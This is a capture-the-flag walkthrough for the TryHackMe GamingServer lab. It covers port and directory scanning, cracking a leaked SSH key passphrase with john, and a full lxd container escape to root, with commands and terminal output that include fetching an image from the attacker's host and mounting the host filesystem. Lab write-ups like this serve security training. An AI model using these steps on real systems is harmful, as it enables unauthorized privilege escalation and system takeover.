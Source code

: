 ```yaml
---
title: Walkthrough - GamingServer
published: true
---
```


Exploit LXD user group and container. Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

[https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)

* * *

## Notes

- nmap

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- gobuster

```shell
/uploads              (Status: 301) [Size: 314] [--> http://10.10.58.155/uploads/]
/about.php            (Status: 200) [Size: 2213]                                  
/robots.txt           (Status: 200) [Size: 33]                                    
/secret               (Status: 301) [Size: 313] [--> http://10.10.58.155/secret/] 
```

- rsa private key located in secret we can feed this to john and use it to login to ssh.
- ``john gamingserver.rsa --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
- checking index.html found a username at the bottom of the page. now we can login

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``id``
- we are a member of lxd - [we can use this for privesc](https://reboare.github.io/lxd/lxd-escape.html)

```shell
john@exploitable:/tmp$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-07-29 10:54:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64-20210218_0139.ta 100%[===================================================================>]   3.11M   295KB/s    in 11s     

2022-07-29 10:54:54 (286 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jul 29, 2022 at 10:55am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Jul 29 10:57 .
     4 drwxr-xr-x   19 root     root          4096 Jul 29 10:56 ..
     4 -rw-------    1 root     root            18 Jul 29 10:57 .ash_history
~ # cd /root
~ # ls
~ # pwd
/root
~ # cd ..
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # cd /mnt/root
/mnt/root # ls
bin             dev             initrd.img      lib64           mnt             root            snap            sys             var
boot            etc             initrd.img.old  lost+found      opt             run             srv             tmp             vmlinuz
cdrom           home            lib             media           proc            sbin            swap.img        usr             vmlinuz.old
/mnt/root # cd /root
~ # ls
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

* * * 

